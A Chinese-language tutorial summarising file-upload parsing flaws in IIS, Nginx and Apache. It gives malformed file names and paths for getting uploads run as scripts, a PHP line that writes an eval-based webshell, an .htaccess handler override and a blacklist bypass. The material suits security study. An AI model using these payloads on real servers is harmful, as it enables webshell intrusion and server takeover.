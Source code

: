 <!--yml
category: web
date: 2022-07-01 00:00:00
-->

# 文件解析漏洞总结

## 一、IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
cracer.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 cracer.asp，那么

```
/cracer.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
cracer.asp;.jpg
```

会被服务器看成是cracer.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/cracer.asa/cracer.cer/cracer.cdx
```


## 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为cracer.jpg，内容为

```
<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>
```

的文件，然后访问cracer.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## 三、Nginx <8.03 空字节代码执行漏洞

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

```
xxx.jpg%00.php
```

来执行其中的代码



## 四、Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 `cracer.php.owf.rar` “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把`cracer.php.owf.rar`解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个cracer.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀



## 五、其他

在windows环境下，`xx.jpg[空格]` 或`xx.jpg.` 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch “cracer.jpg”> SetHandler application/x-httpd-php </FilesMatch>
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 相关课程

![](http://bbs.ichunqiu.com/data/attachment/forum/201602/07/101932shczxhijt4chjihc.png)

[非法文件上传漏洞技术解析及防御](http://www.ichunqiu.com/course/78)